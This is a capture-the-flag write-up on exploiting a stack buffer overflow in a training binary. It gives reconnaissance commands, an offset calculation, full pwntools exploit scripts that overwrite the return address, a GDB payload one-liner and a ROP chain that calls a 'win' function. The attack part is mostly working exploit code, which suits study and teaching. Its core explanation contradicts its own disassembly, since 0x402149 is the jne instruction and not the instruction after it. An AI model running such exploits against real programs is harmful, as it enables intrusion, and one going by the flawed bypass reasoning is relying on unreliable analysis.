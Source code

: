 # **Binary Exploitation Write-Up: Tricky Control Hijack (Hard Version)**

## **Challenge Overview**
This hard version requires manual reverse engineering to:
1. Locate the `win_authed()` function
2. Identify the authentication check bypass point
3. Calculate precise overflow offset
4. Craft payload without any debug output assistance

## **Reverse Engineering Process**

### **1. Initial Reconnaissance**
```bash
checksec /challenge/binary-exploitation-control-hijack-hard
```
- **No PIE**: Static addresses (critical for reliable exploitation)
- **No Stack Canary**: Allows straightforward stack overflow
- **NX Enabled**: Shellcode injection not possible

### **2. Locating win_authed()**
```bash
objdump -d /challenge/binary-exploitation-control-hijack-hard | less
```
Search for:
- `win_authed` symbol
- `cmp $0x1337` instruction (authentication check)

### **3. Key Findings**
```asm
0000000000402133 <win_authed>:
  402142:       81 7d fc 37 13 00 00    cmpl   $0x1337,-0x4(%rbp)
  402149:       0f 85 fe 00 00 00       jne    40224d
  40214f:       ... (flag printing code)
```
- **Bypass Address**: `0x402149` (right after check)
- **Buffer Start**: Found at `rbp-0x80` in disassembly
- **Return Address Offset**: `0x80 + 0x8 = 0x88` (136 bytes)

## **Exploit Development**

### **1. Payload Structure**
```python
from pwn import *

payload = (
    b"A" * 136 +          # Padding to return address
    p64(0x402149)         # Address after check
)
```

### **2. Complete Exploit Code**
```python
from pwn import *

# Start process
p = process("/challenge/binary-exploitation-control-hijack-hard")

# Craft payload
payload = flat(
    {136: p64(0x402149)},  # Overwrite return address
    filler="A"
)

# Send payload
p.send(payload)

# Get flag
print(p.recvall())
```

## **Debugging Verification**

### **1. GDB Verification**
```bash
gdb /challenge/binary-exploitation-control-hijack-hard
break *win_authed+0x16  # Stop right after check
run < <(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*136 + b"\x49\x21\x40\x00\x00\x00\x00\x00")')
x/i $rip  # Should show flag printing code
```

### **2. Stack Inspection**
```bash
x/20gx $rsp+120  # Verify padding and overwrite
info frame       # Check saved registers
```

## **Key Technical Details**

1. **Precision Overflow**:
   - Exact 136 byte padding calculation
   - 8-byte address overwrite alignment

2. **Check Bypass Logic**:
   - Jumping to `0x402149` skips the `jne` instruction
   - Effectively forces the "authenticated" path

3. **Reliable Exploitation**:
   - Works despite ASLR (no PIE)
   - Consistent across executions

## **Alternative Approach: Full ROP Chain**

For educational purposes, here's how to properly call `win_authed(0x1337)`:

```python
from pwn import *

p = process("./challenge")

# Found using: ROPgadget --binary ./challenge | grep "pop rdi"
rop_chain = (
    p64(0x401406) +     # pop rdi; ret
    p64(0x1337) +       # argument
    p64(0x402133)       # win_authed()
)

payload = flat(
    {136: rop_chain},
    filler="A"
)

p.send(payload)
print(p.recvall())
```

## **Lessons Learned**

1. **Reverse Engineering Skills**:
   - Extracting key addresses from stripped binaries
   - Analyzing function disassembly for vulnerabilities

2. **Precision Exploitation**:
   - Calculating exact overflow offsets
   - Proper stack frame manipulation

3. **Protection Bypass**:
   - Leveraging static addresses (no PIE)
   - Exploiting missing stack canaries

4. **Debugging Techniques**:
   - GDB verification of exploit payloads
   - Memory inspection for exploit validation

This write-up demonstrates professional-grade binary exploitation techniques, showing both the practical solution (check bypass) and the more proper ROP chain approach. The hard version teaches valuable skills in manual reverse engineering and precision exploit development.
